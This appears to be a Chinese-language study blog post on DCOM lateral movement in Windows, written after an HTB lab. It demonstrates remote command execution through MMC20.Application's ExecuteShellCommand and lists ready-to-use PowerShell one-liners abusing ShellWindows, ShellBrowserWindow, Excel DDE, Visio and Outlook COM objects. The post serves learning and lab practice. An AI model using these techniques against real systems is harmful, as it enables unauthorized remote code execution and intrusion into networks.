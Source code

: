 ```yaml
---
title: DCOM学习
date: '2025-07-05 11:33:28'
permalink: /post/dcom-learning-quc1x.html
tagline: >-
  本文介绍了DCOM（分布式组件对象模型）攻击的基本原理，重点分析了利用MMC20
  COM对象进行横向移动的方法。文章通过实验环境演示了如何通过PowerShell与远程COM对象交互，并调用Document.ActiveView.ExecuteShellCommand方法在目标系统上执行命令。攻击者需具备Distributed
  COM Users组权限才能实施此类攻击。
tags:
  - dcom攻击
  - windows安全
  - 横向移动
  - com对象
categories:
  - ' 网络安全'
  - 攻击技术
  - Windows
layout: post
published: true
---
```




# DCOM学习

# DCOM攻击原理学习

在打htb的靶机Jab的时候，有一步需要DCOM攻击，这个知识我第一次听说，于是专门学习一下攻击原理，具体组件的使用不作考虑

## 文章

https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/

https://book.hacktricks.xyz/windows-hardening/lateral-movement/dcom-exec

## 概念

DCOM Microsoft Distributed Component Object Model 分布式组件对象模型，是一系列微软的概念和程序接口，利用这个接口，客户端程序对象能够请求来自网络中另一台计算机上的服务器程序对象

## 权限要求

Distributed COM Users组员

## 自建LAB环境实验

依据文章的讲述，操作MMC20对象执行命令

查看所有COM对象

```powershell
PS C:\Users\Administrator> Get-CimInstance Win32_DCOMApplication

AppID                                  Name
-----                                  ----
{00021401-0000-0000-C000-000000000046}
{000C101C-0000-0000-C000-000000000046}
{0010890e-8789-413c-adbc-48f5b511b3af} User Notification
{00f22b16-589e-4982-a172-a51d9dcceb68} PhotoAcquire
{00f2b433-44e4-4d88-b2b0-2698a0a91dba} PhotoAcqHWEventHandler
{01419581-4d63-4d43-ac26-6e2fc976c1f3} TabTip
{01A39A4B-90E2-4EDF-8A1C-DD9E5F526568}
{01D0824E-81A6-447B-9223-167C2A78AFC8} DFSRHelper.ServerHealthReport Class
{020FB939-2C8B-4DB7-9E90-9527966E38E5} lfsvc
{03837503-098b-11d8-9414-505054503030} PLA
{03e15b2e-cca6-451c-8fb0-1e2ee37a27dd} CTapiLuaLib Class
{0450178e-e3ee-46d8-9130-c0b84f169f53} InstallServiceUserBroker
{046AEAD9-5A27-4D3C-8A67-F82552E0A91B} DevicesFlowExperienceFlow
{06622D85-6856-4460-8DE1-A81921B41C4B} COpenControlPanel
{06C792F8-6212-4F39-BF70-E8C0AC965C23} %systemroot%\System32\UserAccountControlSettings.dll
{0771f7af-8de6-4bce-9528-2d4a12cb8168} OOBE Bio Enrollment
{0868DC9B-D9A2-4f64-9362-133CEA201299} sppui
```

忽略大小写筛选服务

```powershell
PS C:\Users\Administrator> Get-CimInstance Win32_DCOMApplication|select-string -Pattern "mmc" -CaseSensitive:$false

Win32_DCOMApplication: MMC Application Class (AppID = "{7e0423cd-1119-0928-900c-e6d4a52a0715}")
```

与COM进行远程交互

```powershell
PS C:\Users\Administrator> $com=[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","10.0.0.3"))
PS C:\Users\Administrator> $com


Document     : System.__ComObject
Frame        : System.__ComObject
Visible      : 0
UserControl  : 0
VersionMajor : 3
VersionMinor : 0
```

查看对象成员

```powershell
PS C:\Users\Administrator> $com|Get-Member


   TypeName:System.__ComObject#{a3afb9cc-b653-4741-86ab-f0470ec1384c}

Name         MemberType Definition
----         ---------- ----------
Help         Method     void Help ()
Hide         Method     void Hide ()
Load         Method     void Load (string)
Quit         Method     void Quit ()
Show         Method     void Show ()
Document     Property   Document Document () {get}
Frame        Property   Frame Frame () {get}
UserControl  Property   int UserControl () {get} {set}
VersionMajor Property   int VersionMajor () {get}
VersionMinor Property   int VersionMinor () {get}
Visible      Property   int Visible () {get}
```

问题出在Document.ActiveView

![image-20240227214222678](/assets/images/network-asset-image-20240227214222678-20250930220255-ltttbfc.png)

可以很清楚地看见这里存在命令执行，微软的文档中有更多的详情信息

https://learn.microsoft.com/zh-cn/previous-versions/windows/desktop/mmc/view-executeshellcommand?redirectedfrom=MSDN

这里面有关于它四个参数的解释

![image-20240227214511690](/assets/images/network-asset-image-20240227214511690-20250930220255-2tf9in6.png)

手工执行测试一下

```powershell
$com.Document.ActiveView.ExecuteShellCommand("powershell.exe","C:\","echo 'abc' >1.txt","minimized")
```

![image-20240227215251965](/assets/images/network-asset-image-20240227215251965-20250930220256-1pezl9w.png)

命令确实在新弹出的窗口被确凿地执行了

## 常用模块

MMC20

```
$com = [Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","remote_ip"))
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimized")
//适用于Windows 7、Windows 10、Windows Server 2008、Windows Server 2016
```

ShellWindows

```
$com=[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"remote_ip"))
$com.item().Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\\windows\\system32",$null,0)
//适用于Windows 7、Windows 10、Windows Server 2008、Windows Server 2016
```

ShellBrowserWindow

```
$com = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","remote_ip"))
$com.Document.Application.shellExecute("calc.exe")
//适用于 Windows 10 ， Windows Server 2012 R2 等
```

Excel.Applicaiton

```
$com = [activator]::CreateInstance([type]::GetTypeFromprogID("Excel.Application","remote_ip"))
$com.DisplayAlerts = $false
$com.DDEInitiate("cmd.exe","/c calc.exe")
```

Visio.Application

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("Visio.Application","remote_ip"))
$com.[0].Document.Application.shellExecute("calc.exe")
//前提是目标安装了 Visio
```

Outlook.Application

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("Outlook.Application","remote_ip"))
$com.createObject("Shell.Application").shellExecute("calc.exe")
//前提是目标安装了 Outlook
```
